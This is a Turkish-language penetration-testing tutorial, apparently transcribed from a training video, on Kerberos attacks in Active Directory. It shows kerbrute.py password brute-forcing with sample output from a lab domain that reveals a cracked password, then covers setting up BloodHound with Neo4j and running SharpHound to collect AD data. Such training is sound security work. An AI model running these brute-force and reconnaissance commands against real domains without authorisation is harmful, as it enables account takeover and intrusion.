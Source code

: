 # **Network Hacker 0x07 - Kerberos ve AD Atakları /w Barkın Kılıç**  

Eğitim serisinin [7. videosunu](https://www.twitch.tv/videos/685522897) yazılı hale getirmeye çalışacağım. Keyifli okumalar dilerim.  

## **0x00: Giriş**

Kerberos protokolüne yönelik çeşitli saldırı türlerini ele alacağız. Bu saldırıları daha iyi anlamak adına Kerberos'un teorik temellerini anlatan önceki eğitimi okumanızı öneririm.  

## **0x01: Kerberos Brute-Force**

Kerberos, bir kimlik doğrulama protokolü olduğu için brute-force saldırılarına açıktır. Kerberos üzerinde brute-force saldırısı yapmanın avantajları:  

**Domain Hesabı Gerekmez:** Saldırıyı gerçekleştirmek için sadece KDC (Key Distribution Center) ile bağlantı yeterli.  
**Log Kayıtları:** Kerberos pre-authentication hataları, normal logon hatalarından (4625) farklı olarak özel log kayıtlarına (4771) düşer.  
**Kullanıcı Adı Doğrulama:** Kerberos, şifre yanlış olsa bile kullanıcı adının geçerli olup olmadığını belirtir. Bu, kullanıcı adlarını keşfetmek için büyük bir avantaj.  
**Pre-Authentication Olmayan Hesaplar:** Pre-authentication gerektirmeyen hesaplar keşfedilebilir ve bu hesaplar ASREPRoast saldırısı için kullanılabilir.  

Ancak, brute-force saldırıları kullanıcı hesaplarını kilitleyebilir bu nedenle dikkatli kullanılmalı.  

### **Linux'ta Kerberos Brute-Force**

Linux üzerinde Kerberos brute-force saldırısı gerçekleştirmek için **kerbrute.py** betiğini kullanacağız:  

```bash
root@kali:kerbrute# python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation
[*] Valid user => triceratops
[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Blocked/Disabled user => trex
[*] Stupendous => velociraptor:Sm4rtSp33d
[*] Saved TGT in velociraptor.ccache
[*] Saved discovered passwords in jurassic_passwords.txt
```

Belirtilen kullanıcı adları ve şifreler üzerinde brute-force saldırısı gerçekleştirir. Bulunan şifreler bir dosyaya kaydeder ve elde edilen TGT'ler (Ticket Granting Ticket) gelecekte kullanılmak üzere saklar.  

## **0x02: BloodHound**  

**BloodHound**, Active Directory (AD) ortamlarında saldırı yollarını keşfetmek için kullanılan bir araçtır. AD nesneleri (kullanıcılar, gruplar, bilgisayarlar) arasındaki ilişkileri analiz eder.  

### **BloodHound Kurulumu**  

BloodHound’u Kali Linux veya başka bir sistemde kurmak:  

#### **1. BloodHound'un İndirilmesi**  

```bash
git clone https://github.com/BloodHoundAD/BloodHound.git
cd BloodHound
```

#### **2. Neo4j Veritabanının İndirilmesi ve Çalıştırılması**  

BloodHound, AD ortamındaki veri ilişkilerini görselleştirmek için **Neo4j** grafik veritabanını kullanır. 

```bash
sudo apt install neo4j
```

Ardından Neo4j'i başlatın:  

```bash
sudo neo4j start
```

İlk çalıştırmada, tarayıcı üzerinden **http://localhost:7474** adresine gidip varsayılan giriş bilgilerini kullanarak oturum açabilirsiniz:  

- **Kullanıcı Adı:** neo4j  
- **Şifre:** neo4j  

![Neo4j Login](img/0x07/1.png)  

Şifreyi değiştirdikten sonra BloodHound'un Neo4j ile bağlantısını sağlayabilirsiniz.  

### **BloodHound Kullanımı**  

BloodHound veritabanına bilgi eklemek için Active Directory’den veri toplayan **SharpHound** aracını kullanabilirsiniz. SharpHound, bir Windows ortamında çalıştırılarak gerekli bilgileri toplar ve BloodHound içine yüklenebilecek JSON dosyaları üretir.  

Windows makinede aşağıdaki komutu çalıştırarak veri toplayabilirsiniz:  

```powershell
SharpHound.exe -c all
```

JSON dosyalarını BloodHound arayüzüne yükleyerek analiz gerçekleştirebilirsiniz.  

### **BloodHound'da içe aktarılan sonuçların analizi**  

```bash
./BloodHound
```
Bu komutu ilk kez çalıştırdığınızda, kurulum sırasında seçtiğiniz Neo4j kimlik bilgilerinizi girmeniz gerekecek. “No database found” hatası alabilirsiniz.

![No database found](img/0x07/2.png)

Eğer böyle bir durum olursa neo4j'i yeniden başlatın:

```bash
sudo neo4j start
```

Daha sonra BloodHound'u tekrar açalım.

Verileri SharpHound veya başka bir araç kullanarak topladıktan sonra ortaya çıkan Zip dosyasını BloodHound arayüzüne sürükleyip bırakınca verileri yükleyecek ve Zip içindeki farklı JSON dosyalarını işleyecektir. İçe aktarma biraz zaman alabilir.

İçe aktarma işlemi hazır olduğunda arayüzümüze veriler gelecektir.

![BloodHound](img/0x07/3.png)
